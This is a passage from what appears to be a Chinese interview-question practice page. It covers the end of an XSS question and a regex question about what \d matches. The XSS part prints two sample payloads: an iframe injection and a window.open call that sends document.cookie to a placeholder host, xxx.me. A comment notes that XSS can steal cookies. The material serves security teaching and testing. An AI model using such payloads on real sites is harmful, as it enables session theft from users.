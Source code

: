 ```cpp
x=document.writeln(%22%3Ciframe%3E%3C/iframe%3E%22);let%20f=document.querySelector(%27iframe%27);f.contentWindow.prompt(location);
```

```cpp
?x=window.open('http://xxx.me:8080/cookie.asp?msg='+document.cookie)
```

本题知识点

Java 工程师 C++工程师 安卓工程师 iOS 工程师 运维工程师 前端工程师 算法工程师 PHP 工程师 测试工程师 哔哩哔哩 安全工程师 2019

讨论

[咸鱼同学](https://www.nowcoder.com/profile/684987786)

利用 xss 可以获取用户的 cookie 值

发表于 2019-09-05 13:10:53

* * *

## 12

正则表达式语法中 \d 匹配的是？（）

正确答案: A   你的答案: 空 (错误)

```cpp
数字
```

```cpp
非数字
```

```cpp
字母
```

```cpp
空白字符
```

本题知识点

Java Javascript

讨论

[咸鱼小哲](https://www.nowcoder.com/profile/8534200)

\d      匹配一个数字字符。等价于 [0-9]。
\D     匹配一个非数字字符。等价于 [⁰-9]。
\f       匹配一个换页符。等价于 \x0c 和 \cL。
\n      匹配一个换行符。等价于 \x0a 和 \cJ。
\r       匹配一个回车符。等价于 \x0d 和 \cM。
\s      匹配任何空白字符，包括空格、制表符、换页符等等。等价于 [ \f\n\r\t\v]。
\S      匹配任何非空白字符。等价于 [^ \f\n\r\t\v]。
\t       匹配一个制表符。等价于 \x09 和 \cI。
\v      匹配一个垂直制表符。等价于 \x0b 和 \cK。
\w     匹配字母、数字、下划线。等价于'[A-Za-z0-9_]'。
\W    匹配非字母、数字、下划线。等价于 '[^A-Za-z0-9_]'。
